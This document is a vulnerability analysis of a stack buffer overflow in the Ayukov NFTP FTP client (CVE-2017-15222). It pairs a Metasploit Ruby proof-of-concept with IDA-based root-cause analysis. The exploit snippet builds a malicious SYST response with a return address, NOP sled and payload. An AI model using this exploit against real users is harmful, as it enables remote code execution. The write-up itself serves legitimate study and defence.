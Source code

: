 # Ayukov NFTP FTP Client Stack Buffer Overflow Analysis

## Introduction

Ayukov is an FTP client that was written by Sergey Ayukov back in 1994. Development stopped in
2011, and it is vulnerable to a stack-based buffer overflow vulnerability due to the way it
handles the server input.

The exploit was tested on Windows XP SP3 (English).

## Vulnerable Application

The vulnerable copy can be [downloaded from Exploit-DB](https://www.exploit-db.com/apps/a766d928899200ed6a21f7c790b5cbe5-nftp-1.71-i386-win32.exe).

## PoC

A submission was made to Metasploit as [PR #9360](https://github.com/rapid7/metasploit-framework/pull/9360). Here's an example of how to crash the FTP client:

```ruby
  # Let the client log in
  client.get_once

  user = "331 OK.\r\n"
  client.put(user)

  client.get_once
  pass = "230 OK.\r\n"
  client.put(pass)

  sploit = "A"*4116
  sploit << [target.ret].pack('V') # JMP ESP here
  sploit << "\x90"*16
  sploit << payload.encoded
  sploit << "C" * (15000 - 4116 - 4 - 16 - payload.encoded.length)
  sploit << "\r\n"

  client.put(sploit)

  client.get_once
  pwd = "257\r\n"
  client.put(pwd)
  client.get_once
```

## Root Cause Analysis

When serving the PoC against the vulnerable app, the client's command prompt shows:

```
12:28:43 331 OK.
12:28:43 USER anonymous
12:28:43 230 OK.
12:28:43 Successfully logged in as 'anonymous@192.168.0.12'
12:28:43 SYST
12:28:43 .................. Lots of AAAAAs here .....................
12:28:43 TYPE I
12:28:43 257
```

The interesting part here is that when the client sends a ```SYST``` request, the server responds
with a long string of data attempting to cause a crash. This would be a good starting point to
investigate the root cause.

With IDA Pro, we can tell that the ```SYST``` string is at the following location:

```
.text:004096B6 ; char aSyst[]
.text:004096B6 aSyst           db 'SYST',0             ; DATA XREF: sub_409978+B8Co
```

When we cross reference, we can tell this is used by the ```OpenControlConnection``` function.
Although there is no symbol to identify the actual function name "OpenControlConnection", the
debugging message at the beginning of the function is a big hint:

```C
int __usercall OpenControlConnection@<eax>(int a1@<ebx>, int a2@<edi>, int a3@<esi>)
{
  sub_45AF40(savedregs);
  *(_DWORD *)&name.sa_data[10] = a2;
  *(_DWORD *)&name.sa_data[6] = a3;
  *(_DWORD *)&name.sa_data[2] = a1;
  if ( !dword_477AEC )
    sub_419B4C(1);
  while ( 1 )
  {
    while ( 1 )
    {
      do
      {
        sub_403484("begin OpenControlConnection()\n", charResBuffer[4088]);
        ...
```

Anyway, inside the OpenControlConnection function, we can see that the ```SYST``` command is
requested here for SendFTPRequest (no symbol of clue of the name, I just decided to name it this
way):

```
.text:0040A504                 push    offset aSyst    ; "SYST"
.text:0040A509                 lea     eax, [ebp+charResBuffer]
.text:0040A50F                 push    eax             ; charResBuffer
.text:0040A510                 lea     eax, [ebp+args]
.text:0040A516                 push    eax             ; int
.text:0040A517                 push    0               ; int
.text:0040A519                 call    SendFTPRequest
```

Inside the SendFTPRequest function, it looks like this:

```C
int SendFTPRequest(int a1, int arg_4, char *charResBuffer, char *Format, ...)
{
  char *v4; // ebx@0
  int v5; // edi@0
  int v6; // esi@0
  char *v7; // edx@1
  char Dst[16384]; // [esp+18h] [ebp-4000h]@2
  char *savedregs; // [esp+4018h] [ebp+0h]@1
  va_list va; // [esp+4030h] [ebp+18h]@1

  va_start(va, Format);
  sub_45AF40(savedregs);
  savedregs = v4;
  v7 = Format;
  if ( Format )
  {
    v4 = Dst;
    // This actually checks the input for the FTP command from the client.
    // The 0x4000u indicates the string should not be longer than that, otherwise
    // there will be a buffer overflow warning in this function.
    snprintf1(Dst, 0x4000u, Format, va);
    v7 = Dst;
  }
  return SendReceive((int)v4, v5, v6, a1, arg_4, charResBuffer, v7);
}
```

We were able to tell the second argument for ```SendFTPRequest``` is actually a buffer for receiving
the server's response, because the way it is used:

```C
result = SendFTPRequest(0, (int)args, charResBuffer, "SYST");
if ( result == -4 )
  return result;
if ( result )
  goto LABEL_231;
if ( *(_DWORD *)args == 2 )
{
  sub_445CEC(charResBuffer);
  if ( strstr(charResBuffer, "unix") )
  {
    if ( strstr(charResBuffer, "powerweb") )
    {
      *(_DWORD *)dword_47B1E0 = 6;
      goto LABEL_206;
    }
  }
...
```

In addition, this buffer is actually on the stack, and it's 4096 long:

```
-00001010 charResBuffer   db 4096 dup(?)
```

This means that if the server responds with something longer than 4096 bytes for the ```SYST``` request,
the data may corrupt the stack, and cause a stack-based buffer overflow. At the end of
```OpenControlConnection```, the ```RETN``` ends up loading the corrupt data, which may lead to
arbitrary code execution:

```
.text:0040AC39                 lea     esp, [ebp-2048h]
.text:0040AC3F                 pop     ebx
.text:0040AC40                 pop     esi
.text:0040AC41                 pop     edi
.text:0040AC42                 leave
.text:0040AC43                 retn
```

Since whoever is using ```SendFTPRequest``` is responsible for providing the buffer of the server
response, and there are 47 other cross-references, it is possible there are different ways to
trigger the same bug. And since it doesn't look like there is a patch (because the product is
no longer in active development, from the exploit developer's perspective, it is not necessary
to look for other ways to exploit it).

## References

https://nvd.nist.gov/vuln/detail/CVE-2017-15222